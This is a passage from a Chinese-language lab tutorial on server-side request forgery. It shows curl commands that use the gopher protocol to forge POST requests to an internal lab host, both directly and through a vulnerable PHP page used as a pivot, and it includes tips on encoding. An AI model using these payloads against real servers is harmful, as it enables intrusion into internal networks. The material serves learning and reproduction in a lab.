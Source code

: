 `curl -v 'gopher://192.168.220.139:80/_POST%20%2ftest%2fssrf%2fpost.php%20HTTP/1.1%0D%0AHost:%20192.168.220.139%0D%0AUser-Agent:%20curl/7.42.0%0D%0AAccept:%20*/*%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Acmd=aaaaaaaa'`

科来网络分析工具抓包：

![pic1](/assets/ssrf/11.png)

再查看192.168.220.139的系统日志会发现，多了一条来自192.168.220.142的POST请求记录

![pic1](/assets/ssrf/12.png)

**② 通过【curl命令】和【gopher协议】对有【SSRF漏洞】的网站远程伪造post请求**

> 通过SSRF漏洞同样可以利用gopher协议对内网系统进行POST请求，不过首先需要查看下【phpinfo】，确认curl是enabled，并且需要确认下当前的curl版本是否支持gopher协议。   
开始用的7.21.0，就没有复现成功，这里是个坑- -！如果curl版本太低，调高phpstudy里的php版本就可以惹^^   
注意：这里的回车换行要二次编码：`%0D%0A` --> `%250d%250a`

`curl -v 'http://192.168.220.143:8888/zhan/test/ssrf/ssrf_demo.php?url=gopher://192.168.220.139:80/_POST%20/test/ssrf/post.php%20HTTP/1.1%250d%250aHost:%20192.168.220.139%250d%250aUser-Agent:%20curl/7.42.0%250d%250aAccept:%20*/*%250d%250aContent-Type:%20application/x-www-form-urlencoded%250d%250a%250d%250acmd=bbbbb'`

再去查看192.168.220.139的系统日志会发现，多了一条来自192.168.220.143的POST请求记录。通过抓包可以看到，这里143其实充当了跳板机的角色。

![pic1](/assets/ssrf/13.png)

攻击过程如下：

![pic1](/assets/ssrf/14.png)
